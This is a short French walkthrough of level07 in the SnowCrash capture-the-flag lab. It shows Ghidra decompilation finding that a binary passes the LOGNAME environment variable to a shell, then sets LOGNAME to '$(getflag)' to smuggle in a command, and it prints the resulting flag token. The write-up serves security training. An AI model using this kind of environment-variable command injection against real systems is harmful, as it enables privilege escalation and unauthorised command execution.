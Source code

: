 Le level07 contient un binaire :
```bash
scp -P 4242 level07@127.0.0.1:/home/user/level07/level07 .
```

Après décompilation avec Ghidra on voit que le binaire appelle la variable d'environnement **LOGNAME**
![Ghidra level07](image.png)

Il faut donc remplacer la variable LOGNAME par un appel à getflag:
```bash
export LOGNAME='$(getflag)'
```

On obtient : 
```bash
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
